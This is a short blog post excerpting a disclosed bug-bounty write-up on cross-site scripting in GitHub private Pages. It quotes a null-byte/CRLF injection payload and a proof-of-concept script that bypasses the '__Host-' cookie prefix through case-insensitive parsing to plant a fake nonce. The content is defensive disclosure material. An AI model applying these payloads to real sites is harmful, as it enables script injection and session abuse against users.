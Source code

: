 ```yaml
---
layout: post
title:  "Nice write up - hacking Github pages for $35K (XSS, HOST, COOKIES)"
date:   2021-04-06
categories: code hacking programming security cool
video: false
---
```


It turns out, appending a null byte causes the integer parsing to end. In other words, we could use a payload such as.

`"?page_id=" + encodeURIComponent("\r\n\r\n\x00<script>alert(origin)</script>")`

We have an easy nonce bypass if we can somehow bypass the `__Host-` prefix protections.  Simply set a fake nonce in a sibling page which will be passed down.

```
<script>
const id = location.search.substring("?id=".length)

document.cookie = "__HOST-gh_pages_session=dea8c624-468f-4c5b-a4e6-9a32fe6b9b15; domain=.private-org.github.io";
location = "https://github.com/pages/auth?nonce=dea8c624-468f-4c5b-a4e6-9a32fe6b9b15&page_id=" + id + "%0d%0a%0d%0a%00<script>alert(origin)%3c%2fscript>&path=Lw";
</script>

```

It turns out, the GitHub private pages server ignores capitalization when parsing cookies. We have our prefix bypass! From here, we can throw together this simple POC for a full XSS!

In order to get the $15000 bonus... luckily, we can abuse another seemingly irrelevant misconfiguration. Enter “public-private pages”.

[Link](https://robertchen.cc/blog/2021/04/03/github-pages-xss)


